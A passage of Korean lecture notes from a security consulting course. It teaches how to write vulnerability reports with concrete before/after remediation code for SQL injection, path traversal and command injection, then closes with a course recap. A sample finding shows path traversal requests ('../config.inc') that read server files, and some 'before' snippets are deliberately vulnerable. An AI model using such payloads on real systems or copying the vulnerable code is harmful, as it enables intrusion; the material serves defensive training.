[캡처: 응답 시간]

이와 같은 방식으로 전체 DB명을 추출할 수 있습니다.
```

**예시 2: Path Traversal**

```markdown
#### 2. 현황

파일 다운로드 기능에서 경로 조작(Path Traversal)이 가능한 것으로 확인되었습니다.

`../` 문자열을 사용하여 상위 디렉토리로 이동할 수 있으며, 이를 통해 서버 내부 파일에 접근할 수 있습니다.

#### 3. 상세 분석

**Step 1: 정상 파일 다운로드**

정상적인 파일 다운로드 요청을 확인하였습니다.

```http
GET /down.cgi?file=test HTTP/1.1
```

[캡처: 정상 다운로드]

**Step 2: 경로 조작 시도**

`../` 를 사용하여 상위 디렉토리의 파일에 접근을 시도하였습니다.

```http
GET /down.cgi?file=../down.cgi HTTP/1.1
```

[캡처: down.cgi 소스 코드 다운로드 성공]

**Step 3: 설정 파일 접근**

소스 코드에서 확인한 설정 파일 경로를 사용하여 민감 정보에 접근하였습니다.

```http
GET /down.cgi?file=../config.inc HTTP/1.1
```

[캡처: config.inc 내용 - Flag 포함]
```

---

### 5.4 개선방안 작성 가이드 (핵심!)

#### 💎 개선방안 작성의 골든 룰

💡 **강사님의 조언:**
> "개선방안은 좀 잘 써보자. 우리의 포커스는 개선방안을 잘 쓰는 거. 예시도 집어넣고요, 그림도 넣고. 그래서 본 사람이야, 이 그대로 고치면 요걸 고칠 수 있게끔. 그렇게 써보자는 것입니다."

**작성 원칙:**

1. **구체적으로**
   - "보안을 강화하세요" ❌
   - "Prepared Statement를 사용하세요" ✅

2. **실행 가능하게**
   - "적절한 조치를 취하세요" ❌
   - 코드 예시 제공 ✅

3. **다각도로**
   - 하나의 해결책만 X
   - 여러 방안을 제시 (코드, 설정, 정책)

4. **현실적으로**
   - 기업의 개발 환경 고려
   - 점진적 적용 방안 제시

#### 📝 개선방안 구조

**권장 구조:**

```markdown
#### 4. 개선방안

**개선방안 1: [핵심 방안]**

[간단한 설명]

**코드 예시 (Before):**
```php
// 취약한 코드
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id='$id'";
```

**코드 예시 (After):**
```php
// 개선된 코드
$id = $_GET['id'];
$stmt = $mysqli->prepare("SELECT * FROM users WHERE id=?");
$stmt->bind_param("s", $id);
$stmt->execute();
```

**적용 효과:**
- SQL Injection 원천 차단
- 코드 가독성 향상

---

**개선방안 2: [보조 방안]**

[설명]

**설정 예시:**
```apache
# Apache .htaccess
<FilesMatch "\.inc$">
    Order allow,deny
    Deny from all
</FilesMatch>
```

---

**개선방안 3: [정책 방안]**

[설명]

**적용 절차:**
1. 개발 가이드라인 수립
2. 코드 리뷰 프로세스에 보안 점검 항목 추가
3. 정기 교육 실시
```

#### 🎯 취약점 유형별 개선방안 템플릿

**1. SQL Injection**

```markdown
#### 개선방안

**방안 1: Prepared Statement 사용 (필수)**

사용자 입력을 SQL 쿼리에 직접 결합하는 방식은 SQL Injection에 취약합니다.
Prepared Statement와 파라미터 바인딩을 사용하여 원천적으로 차단해야 합니다.

**Before (취약):**
```php
$id = $_POST['id'];
$pw = $_POST['pw'];
$query = "SELECT * FROM users WHERE id='$id' AND pw='$pw'";
$result = mysqli_query($conn, $query);
```

**After (안전):**
```php
$id = $_POST['id'];
$pw = $_POST['pw'];

$stmt = $mysqli->prepare("SELECT * FROM users WHERE id=? AND pw=?");
$stmt->bind_param("ss", $id, $pw);
$stmt->execute();
$result = $stmt->get_result();
```

**적용 효과:**
- SQL Injection 완전 차단
- 쿼리 실행 계획 재사용으로 성능 향상

---

**방안 2: 입력값 검증 (추가 방어선)**

Prepared Statement를 사용하더라도 입력값 검증을 병행하면 더욱 안전합니다.

**화이트리스트 기반 검증:**
```php
// ID는 영문자, 숫자, 언더스코어만 허용
if (!preg_match('/^[a-zA-Z0-9_]+$/', $id)) {
    die("Invalid ID format");
}

// 비밀번호 길이 제한
if (strlen($pw) < 8 || strlen($pw) > 64) {
    die("Invalid password length");
}
```

---

**방안 3: 오류 메시지 숨기기**

SQL 오류 메시지가 노출되지 않도록 에러 핸들링을 적용해야 합니다.

```php
// php.ini 또는 코드 상단에 설정
ini_set('display_errors', 0);
ini_set('log_errors', 1);
ini_set('error_log', '/var/log/php_errors.log');

// 커스텀 에러 페이지 표시
try {
    $stmt->execute();
} catch (Exception $e) {
    error_log($e->getMessage());
    die("An error occurred. Please try again later.");
}
```
```

**2. Path Traversal**

```markdown
#### 개선방안

**방안 1: 화이트리스트 방식 적용 (권장)**

다운로드 가능한 파일 목록을 사전에 정의하고, 해당 목록에 있는 파일만 제공합니다.

```php
$allowed_files = [
    'doc1' => '/var/www/files/document1.pdf',
    'doc2' => '/var/www/files/document2.pdf',
    'img1' => '/var/www/files/image1.jpg'
];

$file_key = $_GET['file'];

if (!array_key_exists($file_key, $allowed_files)) {
    die("Access Denied");
}

$file_path = $allowed_files[$file_key];
header('Content-Type: application/octet-stream');
readfile($file_path);
```

**장점:**
- 경로 조작 완전 차단
- 허용되지 않은 파일 접근 불가능

---

**방안 2: realpath()를 사용한 경로 검증**

실제 파일 경로를 확인하여 허용된 디렉토리 내에 있는지 검증합니다.

```php
$base_dir = '/var/www/files/';
$file = $_GET['file'];

// 전체 경로 생성
$full_path = $base_dir . $file;

// 실제 경로 확인 (심볼릭 링크 등 해결)
$real_path = realpath($full_path);

// 베이스 디렉토리 내에 있는지 확인
if ($real_path === false || strpos($real_path, $base_dir) !== 0) {
    die("Access Denied");
}

readfile($real_path);
```

---

**방안 3: 경로 구분자 및 특수 문자 차단**

파일명에 경로 구분자가 포함되지 않도록 검증합니다.

```php
$file = $_GET['file'];

// 경로 구분자 차단
if (preg_match('/[\/\\\\]/', $file)) {
    die("Invalid filename");
}

// 허용된 문자만 사용 (화이트리스트)
if (!preg_match('/^[a-zA-Z0-9_\-\.]+$/', $file)) {
    die("Invalid filename format");
}

// 파일 확장자 검증
$allowed_ext = ['pdf', 'jpg', 'png', 'txt'];
$ext = pathinfo($file, PATHINFO_EXTENSION);
if (!in_array(strtolower($ext), $allowed_ext)) {
    die("Invalid file extension");
}

readfile($base_dir . $file);
```
```

**3. Command Injection**

```markdown
#### 개선방안

**방안 1: 시스템 명령어 직접 호출 금지 (필수)**

`exec()`, `system()`, `shell_exec()` 등 시스템 명령어를 직접 실행하는 함수는 사용을 피해야 합니다.
대신 PHP 내장 함수를 사용합니다.

**Before (위험):**
```php
$file = $_POST['file'];
exec("rm -f /tmp/$file");  // 위험!
```

**After (안전):**
```php
$file = $_POST['file'];

// 경로 검증
$full_path = '/tmp/' . basename($file);
if (file_exists($full_path)) {
    unlink($full_path);  // PHP 내장 함수 사용
}
```

---

**방안 2: escapeshellarg() 사용 (불가피한 경우)**

시스템 명령어 사용이 불가피한 경우, 인자를 안전하게 이스케이프합니다.

```php
$file = $_POST['file'];

// 인자를 안전하게 이스케이프
$safe_file = escapeshellarg($file);

// 명령어 실행
exec("ls -l $safe_file", $output, $return_code);

// 결과 확인
if ($return_code === 0) {
    echo implode("\n", $output);
} else {
    echo "Command failed";
}
```

⚠️ **주의:** `escapeshellarg()`를 사용하더라도 완전히 안전하지 않을 수 있습니다.

---

**방안 3: 화이트리스트 기반 입력 제한**

사용자 입력을 최소화하고, 허용된 값만 처리합니다.

```php
$action = $_POST['action'];

// 허용된 동작만 처리
$allowed_actions = ['backup', 'restore', 'list'];
if (!in_array($action, $allowed_actions)) {
    die("Invalid action");
}

switch ($action) {
    case 'backup':
        exec('/usr/local/bin/backup.sh');
        break;
    case 'restore':
        exec('/usr/local/bin/restore.sh');
        break;
    case 'list':
        exec('/usr/local/bin/list.sh');
        break;
}
```
```

---

### 5.5 실제 보고서 개선방안 사례

#### 📄 사례 1: 파일 업로드 취약점 (AWS S3)

강사님께서 공유해주신 실제 사례:

**현황:**
- AWS S3로 파일 업로드 기능 구현
- 확장자 검증 미흡
- 악성 파일 업로드 가능

**개선방안 (다각도 접근):**

```markdown
#### 개선방안

**방안 1: 코드 수준 - 확장자 검증 강화**

업로드 파일의 확장자를 서버 측에서 검증합니다.

**PHP 예시:**
```php
$allowed_ext = ['jpg', 'jpeg', 'png', 'gif', 'pdf'];
$file_ext = strtolower(pathinfo($_FILES['upload']['name'], PATHINFO_EXTENSION));

if (!in_array($file_ext, $allowed_ext)) {
    die("허용되지 않은 파일 형식입니다.");
}
```

---

**방안 2: AWS S3 수준 - 버킷 정책 설정**

S3 버킷 정책을 통해 업로드 가능한 파일 형식을 제한합니다.

**S3 Bucket Policy 예시:**
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:PutObject",
            "Resource": "arn:aws:s3:::my-bucket/*",
            "Condition": {
                "StringNotLike": {
                    "s3:x-amz-meta-content-type": [
                        "image/jpeg",
                        "image/png",
                        "application/pdf"
                    ]
                }
            }
        }
    ]
}
```

**적용 결과 비교:**

| 구분 | 적용 전 | 적용 후 |
|:---:|:---|:---|
| 업로드 시도 | 성공 | 실패 (Access Denied) |
| S3 콘솔 | 파일 업로드됨 | 업로드 거부됨 |

[캡처: S3 업로드 거부 스크린샷]

---

**방안 3: Content-Type 검증**

파일의 실제 내용과 Content-Type이 일치하는지 검증합니다.

```php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $_FILES['upload']['tmp_name']);
finfo_close($finfo);

$allowed_mime = ['image/jpeg', 'image/png', 'application/pdf'];
if (!in_array($mime, $allowed_mime)) {
    die("허용되지 않은 파일 형식입니다.");
}
```

---

**방안 4: 직접 접근 차단**

업로드된 파일에 직접 접근할 수 없도록 설정합니다.

```php
// CloudFront Signed URL 사용
// 일정 시간 후 자동 만료되는 URL 생성
$cloudfront_url = generate_signed_url($s3_key, 3600); // 1시간 유효
```

---

**방안 5: 바이러스 스캔**

업로드된 파일을 자동으로 스캔합니다.

```php
// ClamAV 연동 예시
$scan_result = exec("clamscan " . escapeshellarg($file_path));
if (strpos($scan_result, 'FOUND') !== false) {
    unlink($file_path);
    die("악성 파일이 감지되었습니다.");
}
```
```

💡 **핵심 교훈:**
> 한 가지 방법만 제시하는 것이 아니라, 다양한 계층에서 적용할 수 있는 방안을 제시하는 것이 좋은 개선방안입니다!

---

### 5.6 조별 발표 피드백 요약

강사님께서 각 조의 보고서를 리뷰하시며 주신 피드백:

**공통 피드백:**

1. ✅ **잘한 점**
   - 취약점 발견 및 분석
   - 기본적인 개선방안 제시

2. ⚠️ **개선 필요 사항**
   - 개선방안이 너무 간단함
   - 코드 예시 부족
   - 설명이 추상적

**조별 구체적 피드백:**

**1조: 임시 파일 누출**
- 개선방안: "정책 수립", "접근 차단"
- 피드백: 좋지만 너무 간단. 구체적인 설정 예시 필요

**2조: Command Injection**
- 개선방안: "인덱스 번호 사용"
- 피드백: 애매함. DL 차단이나 숫자만 받는다는 의미인지 명확히 할 것

**3조: SQL Injection**
- 개선방안: Prepared Statement, 화이트리스트, 길이 제한
- 피드백: ✅ 잘 작성됨! 길이 제한도 강력한 방어 수단

**6조: 파라미터 변조**
- 개선방안: 구체적인 로직 예시 포함
- 피드백: ✅ 매우 좋음! 이렇게 써야 함

---

## ✅ Section 5 학습 체크리스트

- [ ] 보고서 작성의 중요성과 목적을 이해한다
- [ ] 표준 보고서 구조를 파악한다
- [ ] 현황 작성 시 포함할 내용을 안다
- [ ] 개선방안 작성의 핵심 원칙을 이해한다
  - [ ] 구체적으로
  - [ ] 실행 가능하게
  - [ ] 다각도로
  - [ ] 현실적으로
- [ ] 코드 예시를 Before/After로 작성할 수 있다
- [ ] 취약점 유형별 개선방안 템플릿을 활용할 수 있다
- [ ] 다계층 방어(Defense in Depth) 개념을 적용할 수 있다

## 📋 핵심 요약

### 1. 보고서의 본질
- 취약점 발견 < **개선방안 제시** (더 중요!)
- 컨설팅 = 전문적 조언
- 실행 가능성이 핵심

### 2. 개선방안 작성 원칙
- **구체적**: "보안 강화" ❌ → "Prepared Statement 사용" ✅
- **실행 가능**: 코드 예시 제공
- **다각도**: 코드 + 설정 + 정책
- **현실적**: 기업 환경 고려

### 3. 필수 포함 요소
- Before/After 코드 비교
- 적용 효과 설명
- 여러 방어선 제시
- 설정 예시 (가능한 경우)

### 4. 좋은 개선방안의 특징
- 개발자가 바로 적용 가능
- 왜 그렇게 해야 하는지 설명
- 실제 적용 사례 포함
- 다양한 계층에서의 방어 방안 제시

### 5. 강사님의 핵심 메시지
> "개선방안은 본 사람이 이 그대로 고치면 고칠 수 있게끔 써야 합니다. 예시도 집어넣고, 그림도 넣고요."

---

**다음 섹션 예고:**

5일간의 보안 컨설팅 강의를 마무리하며, 배운 내용을 종합 정리하고 앞으로의 학습 방향을 제시합니다. 실무에 나가서 어떻게 이 지식을 활용할 수 있을지, 그리고 계속해서 성장하기 위해 무엇을 공부해야 할지 함께 알아봅시다!

---
## 🎓 Section 6: 종합 정리 및 앞으로의 학습

### 6.1 5일간의 학습 회고

#### 📚 무엇을 배웠는가?

**Day 1-4: ISMS 보안 컨설팅**
- ISMS-P 인증 제도 이해
- 보안 관리체계 구축 방법
- 법적 요구사항 및 인증 항목
- 실제 인터뷰 및 서면 심사 절차
- 보안 정책 및 절차 문서화

**Day 5 (오늘): 기술 컨설팅**
- ISMS 제도 개편 동향
- Hash 암호화 기초
- 웹 취약점 진단 실습
- 고급 공격 기법
- **보고서 작성 및 개선방안 제시** (핵심!)

#### 💡 핵심 깨달음

강사님의 마지막 말씀:

> "컨설팅을 하는 입장에서도 사실 조금 해의적인 면이 없지 않아 있습니다. 이렇게 우리가 컨설팅을 해서 인증을 취득하게 해주지만, 그렇게 한다고 해서 정말로 이 회사가 보안이 잘 될 것인가에 대해서는 조금 해의적인 면이 있어요."

**우리가 지향해야 할 방향:**
- 단순히 인증 취득을 돕는 것이 아닌
- 실제로 보안 수준을 향상시키는 컨설팅
- 형식보다 실질을 추구
- 기술과 관리의 균형

---

### 6.2 ISMS 컨설팅 vs. 취약점 진단

#### 🔄 두 영역의 비교



**두 영역의 통합:**

| 구분 | ISMS 컨설팅 | 취약점 진단 | 통합 컨설팅 |
|:---:|:---|:---|:---|
| **초점** | 관리체계 | 기술적 보안 | 관리 + 기술 |
| **방법** | 인터뷰, 서면 | 실제 테스트 | 종합 평가 |
| **결과물** | 정책/절차 | 개선 코드 | 종합 보고서 |
| **효과** | 장기적 | 즉각적 | 지속 가능 |
| **난이도** | 중 | 고 | 매우 고 |

💡 **강사님의 통찰:**
> "취약점 진단도 어떤 취약점을 찾는 것만이 사실은 다가 아니구요. 더 중요한 건 어떻게 고쳐야 됩니다 이런 얘기 하는 게 중요한 부분이다 보니까, 역시 컨설팅의 영역이라고 볼 수 있겠는데, 취약점 진단 하는 거는... 오히려 더 어려울 수 있어요."

#### 🎯 2026년 이후 요구되는 역량

**기존 (2025년까지):**
- ISMS 인증 항목 이해
- 법적 요구사항 파악
- 문서 작성 능력
- 인터뷰 기술

**개편 후 (2026년~):**
- ✅ 위 모든 역량 +
- ✅ 취약점 진단 기술
- ✅ 모의침투 기법
- ✅ 개발 언어 이해
- ✅ 보안 솔루션 활용
- ✅ 실전 코드 작성 능력

📌 **중요!**
> 앞으로는 단순히 서류만 잘 만드는 컨설턴트가 아닌, 기술과 관리를 모두 이해하는 **종합 보안 전문가**가 필요합니다!

---

### 6.3 실무에서의 활용

#### 💼 파이널 프로젝트 연계

강사님의 조언:

> "지금 하신 게 사실 파이널하고 되게 직접적인 관련이 있잖아요. 만약 파이널에 컨설팅 하신다 하시면 뭐 어떤 가상의 기업을 우리가 ISMS가 되었든 뭐가 되었든 컨설팅 해준다라고 가정해서 뭔가 프로젝트를 진행하셔야 될 거고."

**파이널 프로젝트 아이디어:**

1. **ISMS 컨설팅 프로젝트**
   - 가상 기업의 ISMS 인증 준비 지원
   - 관리체계 수립 및 문서화
   - 모의 심사 실시

2. **취약점 진단 프로젝트**
   - 실제 웹 애플리케이션 진단
   - 취약점 발견 및 보고서 작성
   - 개선방안 구현 및 검증

3. **통합 보안 컨설팅 프로젝트** (권장!)
   - ISMS 항목 점검 + 취약점 진단
   - 종합 보안 수준 평가
   - 단계별 개선 로드맵 제시
   - **차별화 포인트**: 기술 진단을 포함한 컨설팅

💡 **차별화 전략:**
> "ISMS 쪽만 하는데 약간 뭐 취약점 진단을 살짝 섞어준다던지 뭔가 차별할 수 있는 하시구요."

#### 🚀 실무 적용 시나리오

**시나리오 1: 신규 서비스 보안 검토**
```
상황: 회사에서 새로운 웹 서비스를 론칭 예정
역할: 보안 컨설턴트

진행 절차:
1. 요구사항 분석 (ISMS 관점)
   - 수집되는 개인정보 파악
   - 법적 요구사항 확인
   - 보안 정책 수립

2. 기술적 검토 (진단 관점)
   - 개발 중인 코드 리뷰
   - 화이트박스 테스트
   - 보안 가이드 제공

3. 종합 보고서
   - 관리적 개선사항
   - 기술적 개선사항
   - 구현 우선순위
```

**시나리오 2: 보안 사고 대응**
```
상황: 개인정보 유출 사고 발생
역할: 사고 조사 및 재발 방지 컨설팅

진행 절차:
1. 사고 원인 분석
   - 취약점 진단
   - 로그 분석
   - 침해 경로 추적

2. 즉각적 조치
   - 취약점 패치
   - 시스템 보안 강화
   - 추가 피해 차단

3. 재발 방지 체계 구축
   - 보안 정책 개선
   - 모니터링 체계 수립
   - 교육 및 훈련
```

---

### 6.4 계속 성장하기 위한 학습 방향

#### 📖 추천 학습 경로



**1단계: 기초 다지기 (현재)**
- ✅ ISMS 개념 이해
- ✅ 기본 웹 취약점 실습
- ✅ 보고서 작성 연습

**2단계: 전문성 구축 (3-6개월)**
- 취약점 진단 도구 숙련 (Burp Suite, OWASP ZAP)
- 다양한 취약점 유형 학습 (OWASP Top 10)
- 프로그래밍 언어 학습 (Python, PHP, Java)
- 보안 프레임워크 이해 (NIST, CSF)

**3단계: 실전 경험 (6-12개월)**
- 실제 프로젝트 참여
- Bug Bounty 도전
- CTF 대회 참가
- 오픈소스 기여

**4단계: 전문가 도약 (1-2년)**
- 자격증 취득 (CEH, OSCP, CISSP)
- 컨퍼런스 발표
- 블로그 운영 (기술 공유)
- 멘토링 활동

#### 📚 추천 학습 자료

**1. 웹 취약점 진단**
- OWASP WebGoat
- HackTheBox
- TryHackMe
- PentesterLab

**2. 프로그래밍**
- Python for Security
- Secure Coding Guidelines (OWASP)
- Clean Code (Robert C. Martin)

**3. 보안 관리**
- ISMS-P 인증 기준 상세 연구
- ISO/IEC 27001
- NIST Cybersecurity Framework

**4. 커뮤니티**
- KISA (한국인터넷진흥원) 교육
- OWASP 한국 챕터
- CodeEngn (리버싱 커뮤니티)
- 보안프로젝트

#### 🎯 단기 목표 설정 (3개월)

**기술 역량:**
- [ ] Burp Suite Professional 기능 숙련
- [ ] Python으로 간단한 취약점 스캐너 제작
- [ ] OWASP Top 10 전체 실습
- [ ] 리눅스 명령어 숙련도 향상

**지식 역량:**
- [ ] ISMS-P 인증 기준 전체 암기
- [ ] 주요 보안 법규 이해 (개인정보보호법, 정보통신망법)
- [ ] 최신 보안 트렌드 팔로우 (뉴스레터 구독)

**실전 역량:**
- [ ] 실제 웹사이트 5개 이상 취약점 진단 (허가된 사이트)
- [ ] 보고서 3개 이상 작성
- [ ] 파이널 프로젝트 완성

---

### 6.5 강사님의 마지막 응원

#### 💬 수고하셨습니다!

> "5일동안 굉장히 수고하셨구요. 수고하셨구요. 다음에 기회가 되면 또 오보도록 하죠."

> "여러분 권순영 강사님 어떠셨나요? 옆에서 같이 듣는데 되게 나긋나긋 하신데 뭔가 중독되는 강사님만의 매력이 있었던 것 같은데."

#### 🌟 보안 업계의 미래

강사님께서 계속 강조하신 메시지:

**1. 보안 수요는 계속 증가한다**
> "요즘 뭐 바뀐 제도에 대해 얘기하실려나 모르겠지만 뭔가 또 재밌는 얘기 하시겠지."

**2. 지금이 기회다**
> "이 타임에 잘 취업을 하시고요. 보안 수요가 좋을 때입니다."

**3. 기술과 관리의 균형**
> "취약점 진단이나 모의해킹 쪽에 지식이 많으면 훨씬 좋아지겠죠. 경쟁력이 있는 거죠."

**4. 실질을 추구하라**
> "형식보다 실질을 추구하는 컨설턴트가 되어야 합니다."

---

### 6.6 다음 학습 일정

#### 📅 앞으로의 커리큘럼

**내일 (6일차):**
- 정승훈 강사님 - 거버넌스
- 정보보호 거버넌스 및 정책

**7일차 (특강):**
- 2월 10일 예정
- 특강 형식

**다음 주 (1월 19일~):**
- 보안 관제 (온라인)
- 로그 분석
- **1월 26일까지 온라인 QR 가능**

**모의해킹 (1월 27일~):**
- **오프라인 필수 출석!**
- 온라인 QR 불가
- 실전 모의침투 훈련

#### 🎯 최종 목표: 파이널 프로젝트

**준비 사항:**
- 지금까지 배운 내용 복습
- 관심 주제 선정
- 팀 구성 및 역할 분담
- 차별화 전략 수립

**프로젝트 방향:**
- ISMS 컨설팅 또는 취약점 진단
- 가능하면 두 가지를 통합한 종합 프로젝트
- 실제 적용 가능한 수준의 결과물

---

## 🎊 마무리

### 🌈 5일간의 여정을 돌아보며

**Day 1**: ISMS가 뭔지 막막했던 우리
**Day 2**: 정책과 절차 문서를 작성해보며 조금씩 이해
**Day 3**: 실제 항목 점검을 해보며 실무 감각 체득
**Day 4**: 인터뷰와 서면 심사 시뮬레이션
**Day 5**: 기술 진단까지 경험하며 종합 역량 구축

### 💪 우리는 이제...

- ✅ ISMS-P 인증 제도를 이해합니다
- ✅ 보안 컨설팅의 본질을 압니다
- ✅ 웹 취약점을 찾고 분석할 수 있습니다
- ✅ 전문적인 보고서를 작성할 수 있습니다
- ✅ **개선방안을 구체적으로 제시할 수 있습니다!** (가장 중요!)

### 🚀 앞으로 나아갈 길



---

## ✅ 전체 강의 체크리스트

### 이론 지식
- [ ] ISMS-P 인증 제도의 역사와 구조
- [ ] 2026년 제도 개편 내용
- [ ] Hash 알고리즘의 특징과 활용
- [ ] 웹 취약점 유형 (OWASP Top 10 기초)
- [ ] 보안 개발 생명주기 (SDLC)

### 실습 기술
- [ ] Burp Suite 기본 사용법
- [ ] SQL Injection 실습
- [ ] Path Traversal 실습
- [ ] Command Injection 실습
- [ ] Deserialization 취약점 이해
- [ ] Quine SQL Injection 개념

### 실무 역량
- [ ] 인터뷰 기술
- [ ] 서면 심사 준비
- [ ] 보고서 작성
- [ ] 개선방안 제시
- [ ] 조별 협업
- [ ] 발표 및 피드백

---

## 📋 최종 핵심 요약

### 1. ISMS 제도 개편 (2026년)
- 기술심사 도입 (취약점 진단 + 모의침투)
- 컨설팅 수요 증가 예상
- 기술 역량의 중요성 강조

### 2. Hash의 이해
- 일방향 암호화
- 고정 길이 출력
- 비밀번호 저장에 필수

### 3. 웹 취약점
- SQL Injection: Prepared Statement 사용
- Path Traversal: 화이트리스트, 경로 검증
- Command Injection: 시스템 명령어 사용 금지

### 4. 보고서 작성
- **개선방안이 핵심!**
- 구체적, 실행 가능하게
- 코드 예시 포함
- 다계층 방어 제시

### 5. 컨설팅의 본질
- 형식 < 실질
- 단순 인증 취득 < 실제 보안 향상
- 기술 + 관리 균형
- 지속 가능한 보안 체계

---

## 🙏 감사의 말

**권순영 강사님께:**
- 5일간의 열정적인 강의
- 나긋나긋하지만 중독적인 강의 스타일
- 실무 경험에서 나온 값진 조언들
- 솔직한 고민 공유 (컨설팅의 해의적 면)

**동료 수강생 여러분께:**
- 고형님: Deserialization 발표
- 민고님: Quine SQL 발표 (5950점!)
- 조별 협업과 서로 도움
- 함께 성장하는 즐거움

**우리 자신에게:**
- 5일간 최선을 다한 자신을 칭찬합니다
- 어려운 내용도 포기하지 않고 끝까지 완주
- 이제 한 걸음 더 나아갈 준비가 되었습니다

---

## 🎯 마지막 한 마디

💡 **강사님의 마지막 격려:**
> "해킹 아 별거 아니네, 웹 해킹 별거 아니네. 물론 해킹에 대해 굉장히 깊지만, 이런 정말 간단한 거, 여러 정도는 뭐 그래요, 2 곱하기 3 같은 느낌이에요. 알아둬야지 이 정도는 아셔야죠."

**여러분, 우리는 이제 보안의 기초를 탄탄히 다졌습니다!**

앞으로 더 깊이 있는 학습을 통해 진정한 보안 전문가로 성장해나갑시다.

**파이팅! 🚀**

---

## 📚 참고자료 및 링크

### 온라인 도구
- Hash 생성: https://emn178.github.io/online-tools/
- Burp Suite: https://portswigger.net/burp
- OWASP: https://owasp.org/

### 학습 플랫폼
- HackTheBox: https://www.hackthebox.com/
- TryHackMe: https://tryhackme.com/
- PortSwigger Web Security Academy: https://portswigger.net/web-security

### 공식 문서
- KISA ISMS-P: https://isms.kisa.or.kr/
- OWASP Top 10: https://owasp.org/www-project-top-ten/
- NIST Cybersecurity Framework: https://www.nist.gov/cyberframework

---

**📝 강의 노트 종료**

**작성일**: 2026년 1월 13일
**총 섹션**: 6개
**예상 분량**: 1,800+ 줄
**강의 시간**: 약 4시간

**다음 강의**: 내일 정승훈 강사님의 거버넌스 강의에서 만나요! 👋

---
